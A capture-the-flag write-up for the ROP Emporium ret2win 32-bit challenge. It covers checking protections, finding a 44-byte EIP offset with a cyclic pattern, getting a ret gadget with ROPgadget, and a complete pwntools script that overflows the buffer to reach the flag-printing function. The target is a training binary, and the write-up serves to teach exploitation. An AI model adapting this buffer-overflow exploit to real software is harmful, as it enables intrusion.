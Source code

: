 # **ROP Emporium - ret2win (32-bit)**

## **Gathering information about file**


![](p/1.png)


Confirmed that file is 32 bit. Now we can check protections of that ELF.


![](p/2.png)


As we can see NX bit is set, so we are not allowed any machine code in the stack. However stack canary is turned off, so there is possibility of making buffer overflow.


![](p/3.png)

We got segmentaion fault, so we have buffer overflow vulnerability here.

## **Reversing ret2win**

Now we need to look around our binary - check what functions are here, what are they doing etc. To do this we will utilize pwndbg.


![](p/4.png)


As you can see there are 2 interesting functions: `pwnme` and `ret2win`. Let's disassemble them using `radare2`.


*`pwnme()`:*


![](p/5.png)


This function is responsible for providing some information to a user and receiving input from user. There is nothing interesting here.


*`ret2win()`:*


![](p/6.png)


This function is the most interesting, because it is responsible for printing flag. Now let's look at `main()` function, because we need to know what tactic should we take to get a flag.


![](p/7.png)


There is no calling for `ret2win` function. So our goal is to utlizie buffer overflow vulnerability to jump to `ret2win` function.


## **Finding offset**

Let's generate some pattern to use it on our vulnerable binary.


![](p/8.png)


EIP register was overwriten with `0x6161616c ('laaa')`, we can use `cyclic -o <EIP>`. 



![](p/9.png)


So offset value is 44.


## **Exploitation**

### **FOR UBUNTU USERS**

If you are doing this CTF on Ubuntu you need to add additional return value due to MOVAPS issue. To get this additional value you can use ROPGadget.


```
ROPgadget --binary ./ret2win32 --ropchain
```

![](p/10.png)

Let's write `ret` value: 0x0804837e.


### **Writing exploit**

```python
from pwn import *

elf = ELF("ret2win32")
info("%#x target", elf.symbols.ret2win)
io = process(elf.path)
ret2win = p32(elf.symbols.ret2win)
payload = b"A"*44 + p32(0x0804837e) + ret2win
io.sendline(payload)
io.interactive()
```

### **Running exploit**


![](p/11.png)


We properly got a flag.


